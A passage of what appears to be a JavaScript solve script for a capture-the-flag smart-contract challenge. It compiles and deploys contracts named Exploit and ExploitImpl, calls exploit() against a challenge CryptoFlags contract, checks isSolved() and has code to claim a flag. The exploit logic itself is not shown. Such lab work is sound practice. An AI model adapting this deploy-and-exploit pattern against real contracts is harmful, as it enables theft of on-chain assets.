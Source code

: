```js
      ])
    ),
    settings: {
      outputSelection: {
        '*': {
          '*': ['*'],
        },
      },
    },
  };
  const compiled = JSON.parse(solc.compile(JSON.stringify(input)));
  const { evm: { bytecode: { object: exploitImplBytecode } }, abi: exploitImplAbi } = compiled.contracts["Exploit.sol"]["ExploitImpl"];
  const { evm: { bytecode: { object: exploitBytecode } }, abi: exploitAbi } = compiled.contracts["Exploit.sol"]["Exploit"];

  const exploitImpl = new web3.eth.Contract(exploitImplAbi);
  const exploit = new web3.eth.Contract(exploitAbi);

  const { options: { address: exploitImplAddress } } = await exploitImpl.deploy({
    data: "0x" + exploitImplBytecode
  }).send({
    from: account.address,
  });
  console.log(`deployed exploit impl at ${exploitImplAddress}`);

  const setup = new web3.eth.Contract(compiled.contracts["Setup.sol"]["Setup"].abi, SETUP);
  const flags = new web3.eth.Contract(compiled.contracts["CryptoFlags.sol"]["CryptoFlags"].abi, await setup.methods.cryptoFlags().call());

  const { options: { address: exploitAddress } } = await exploit.deploy({
    data: "0x" + exploitBytecode,
    arguments: [flags.options.address]
  }).send({
    from: account.address,
  });
  console.log(`deployed exploit at ${exploitAddress}`);

  async function sendMethod(target, method) {
    const tx = {
      from: account.address,
      to: target.options.address,
      gas: 9999999,
      gasPrice: await web3.eth.getGasPrice(),
      data: method.encodeABI()
    };
    const signed = await web3.eth.accounts.signTransaction(tx, PRIVATE_KEY);
    await web3.eth.sendSignedTransaction(signed.rawTransaction);
  }

  const deployedExploit = new web3.eth.Contract(compiled.contracts["Exploit.sol"]["Exploit"].abi, exploitAddress);

  await sendMethod(deployedExploit, deployedExploit.methods.exploit(exploitImplAddress));
  console.log(await setup.methods.isSolved().call());

  return;

  const FLAG_ID = 56488061;

  await sendMethod(flags, flags.methods.claimFlag(FLAG_ID));
  console.log("claimed flag");

```